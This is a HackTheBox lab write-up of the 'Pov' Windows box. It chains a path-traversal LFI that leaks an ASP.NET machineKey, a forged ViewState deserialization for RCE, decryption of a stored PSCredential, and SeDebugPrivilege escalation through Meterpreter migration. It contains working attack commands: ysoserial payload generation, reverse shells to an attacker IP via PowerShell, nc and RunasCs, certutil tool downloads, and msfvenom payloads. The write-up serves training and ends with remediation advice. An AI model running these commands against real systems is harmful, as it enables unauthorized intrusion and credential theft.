




HTB CPTS Track: Pov (medium)
Black-box Windows box: an LFI in a dev vhost leaks the ASP.NET machineKey, a forged __VIEWSTATE gives RCE as sfitz, a saved PSCredential in connection.xml unlocks alaading, and SeDebugPrivilege is abused to migrate into a SYSTEM process for root.
contents
Pov is a medium Windows box built around one classic ASP.NET chain: leak the machineKey, forge a __VIEWSTATE, get RCE. The foothold is clean and the user step is a gift, but the privilege escalation is where I spent most of my time. I had SeDebugPrivilege the whole way and still fought it for an evening, so this writeup keeps all of that in, the manual token tools that didn't work, the one that finally did, and me being upfront that I never fully pinned down why.
- An LFI in the
devvhost's CV download readsweb.configand leaks the ASP.NETmachineKey. - With the key, forge a signed
__VIEWSTATE(ysoserial.net) for RCE aspov\sfitz. - A saved
PSCredentialinconnection.xmldecrypts toalaading's password, then RunasCs for user. alaadingholdsSeDebugPrivilege, abuse it to inject into a SYSTEM process for root.
No creds to start, black-box from the Nmap scan.
Enumeration¶
Nmap¶
sudo nmap -sV -sC -p- 10.129.82.126 -T5
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
One port: IIS on 80, titled pov.htb. With a single port and a vhost-style title, I skipped straight to fuzzing after adding pov.htb to /etc/hosts.
Fuzzing¶
Directory fuzzing only turned up the usual static folders (img, css, js), nothing useful. So I pivoted to vhost fuzzing, which is where the box opens up:
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://pov.htb/ -H 'Host: FUZZ.pov.htb' -fs 12330
dev [Status: 302, Size: 152, Words: 9, Lines: 2, Duration: 4228ms]
Add dev.pov.htb to /etc/hosts.
Initial Foothold: LFI to ViewState RCE¶
dev.pov.htb is a portfolio site for "Stephen Fitz" with two places that take input: a contact form (a dead end) and a Download CV button on /portfolio.


The download is driven by a file parameter, which is the kind of thing worth testing for traversal. On an ASP.NET WebForms app the file I most want is web.config, because that's where the machineKey lives, and the machineKey is what signs __VIEWSTATE. A ....// traversal in the file parameter slips past the filter and reads it:

POST /portfolio/default.aspx ... &file=....//web.config
<machineKey decryption="AES"
decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"
validation="SHA1"
validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
And from the request itself, __VIEWSTATEGENERATOR=8E0F0FA3.
Why this works: ASP.NET WebForms round-trips page state in a
__VIEWSTATEblob that the server deserializes on every postback. To stop tampering, that blob is signed (and optionally encrypted) with themachineKey. If you have themachineKey, you can build your own serialized.NET gadget, sign it so it passes validation, and the server will happily deserialize it, which is remote code execution. Leakingweb.configvia the LFI hands over exactly that key, so the LFI and the ViewState bug chain into one.
Following the HackTricks ViewState guide, I generate a signed payload with the leaked key, the WindowsIdentity gadget, the /portfolio path, and a base64 PowerShell reverse shell to 10.10.14.137:6767:
.\ysoserial.exe -p ViewState -g WindowsIdentity --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio" -c "powershell -e JABjAGwAaQBlAG4AdAAg...(base64 reverse shell, trimmed)" k%2FMKZYh4kbB4DU7Tg2tPprVXRG1lXWJIy4YyV4DwvZ1CAIwyHQZ7Vlszu2KIK%2FH3fFTJbZMdhGk8gmEYMI2Gokjy%2FbTCm3tLKlYDuj0AiIDz5QMUhf2AAYIDCC0dBGdK6ytq9Q%3D%3D
ysoserial.net is a.NET binary and Wine wasn't cooperating for me, so I ran it on a throwaway Windows VM (hence the .\ysoserial.exe). That trailing blob (k%2FMKZYh4...q9Q%3D%3D) is the page's __EVENTVALIDATION.
ysoserial hands back the forged __VIEWSTATE (E08R07gh4QR7AXpkN%2Bt675..., trimmed). Drop it into the __VIEWSTATE field of the /portfolio postback (alongside __VIEWSTATEGENERATOR=8E0F0FA3 and the current __EVENTVALIDATION), send it, and catch the shell as pov\sfitz:

$ nc -lvnp 6767
Connection received on 10.129.82.126 49671
PS C:\windows\system32\inetsrv> whoami
pov\sfitz
User: connection.xml to alaading¶
Poking around the home directory, there's a stored credential in Documents:
PS C:\Users\sfitz\Documents> type connection.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0"><T>System.Management.Automation.PSCredential</T> ...</TN>
<Props>
<S N="UserName">alaading</S>
<SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb5434...(DPAPI blob, trimmed)</SS>
</Props>
</Obj>
</Objs>
It's a serialized PSCredential, so PowerShell decrypts it for me:
PS C:\Users\sfitz\Documents> $cred = Import-Clixml -Path "connection.xml"
PS C:\Users\sfitz\Documents> $cred.GetNetworkCredential().Password
f8gQ8fynP44ek1m3
Why this works:
Export-Clixmlstores aPSCredentialwith the password encrypted via DPAPI under the user who saved it. Any process running as that same user canImport-Clixmland have Windows transparently decrypt it, no master password, no cracking. Because the file sits insfitz's profile and I'm running assfitz, the decryption just happens. This is why a.xmlcredential file on a box you already have a foothold on is almost always a free credential.
New creds: alaading / f8gQ8fynP44ek1m3. Pull RunasCs over and use them to spawn a shell as alaading:
PS C:\Users\sfitz> certutil.exe -urlcache -split -f http://10.10.14.137:80/RunasCs.exe C:\Users\sfitz\RunasCs.exe
PS C:\Users\sfitz> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 powershell -r 10.10.14.137:6768
PS C:\Users\alaading\Desktop> type user.txt
<FLAG>
user.txt captured.
Root: SeDebugPrivilege, the Long Way¶
winPEAS found nothing exciting, but whoami /priv had the one line that matters:
Privilege Name Description State
============================= ============================== ========
SeDebugPrivilege Debug programs Enabled
Why
SeDebugPrivilegeis game over: it lets a process open a handle to any process on the host, including ones owned by SYSTEM. With that handle you can inject code into a SYSTEM process or duplicate its token, so on paper the account is already SYSTEM. You just have to actually land the injection, and that's where I lost an evening.
Everything that didn't work¶
I went down every manual token route before the one that worked. The short version of what failed:
SeDebugPrivesc.exe(spawn a child under a target SYSTEM process's token by parent-PID spoofing). Staged msfvenom payloads connected then died to Defender, a mono-compiled C# shell ran fine asalaadingbut never called back as SYSTEM, and the core SYSTEM processes,lsass(644),services(624),wininit(508), just threwError 5??? (access denied), which I never got to the bottom of.psgetsys.ps1(ImpersonateFromParentPid). After sorting out the right call (this fork is a function, not a[MyProcess]class), every child came back identically:
ImpersonateFromParentPid -ppid 560 -command "c:\windows\system32\cmd.exe" -cmdargs "/c c:\users\alaading\nc64.exe 10.10.14.137 9001 -e powershell"
[+] Got Handle for ppid: 560
[+] Updated proc attribute list
[+] Starting c:\windows\system32\cmd.exe ... True - pid: 1592 - Last error: 122
True, a PID, then nothing, the child was gone with no callback. A file-write proof (whoami > who.txt through the same mechanism) never created the file, so the child wasn't really executing at all.
I'll be straight: I never worked out why any of it failed. So I stopped fighting the token tools and just got myself a better shell.
What actually worked¶
I reached for the tool that does the injection itself, Meterpreter. Build an x64 payload, run it as alaading, catch the session, and migrate into a SYSTEM process:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.137 LPORT=6969 -f exe -o 2kb1.exe
[*] Meterpreter session 1 opened (10.10.14.137:6969 -> 10.129.230.183:49677)
(Meterpreter 1)(C:\Users\alaading) > migrate 560
[*] Migrating from 4640 to 560...
[*] Migration completed successfully.
(Meterpreter 1)(C:\Windows\system32) > shell
C:\Windows\system32>whoami
nt authority\system
Why
migrateworked when the manual tools didn't:migrateinjects its DLL straight into the target process usingSeDebugPrivilege, with no child process to spawn. My guess, it just isn't as fragile as the shell I had before.
From there, the flag:
C:\Users\Administrator\Desktop>type root.txt
<FLAG>
root.txt captured. Box owned.
Remediation¶
- Fix the LFI. The CV download has a path-traversal in its
fileparameter; canonicalise and whitelist the path. Leakingweb.configis what starts the whole chain. - Rotate and protect the
machineKey. Once the key is out, every signed__VIEWSTATEis forgeable. Don't serveweb.config, and setmachineKeyfrom a protected source, not inline. - Don't leave recoverable credentials on disk.
connection.xmlis a DPAPI-sealedPSCredential, but it's trivially decryptable by anyone running as that user. Remove it, or use a real secret store. - Strip
SeDebugPrivilegefrom service accounts. It is equivalent to SYSTEM on the host. Thealaadingaccount has no business holding it.
References: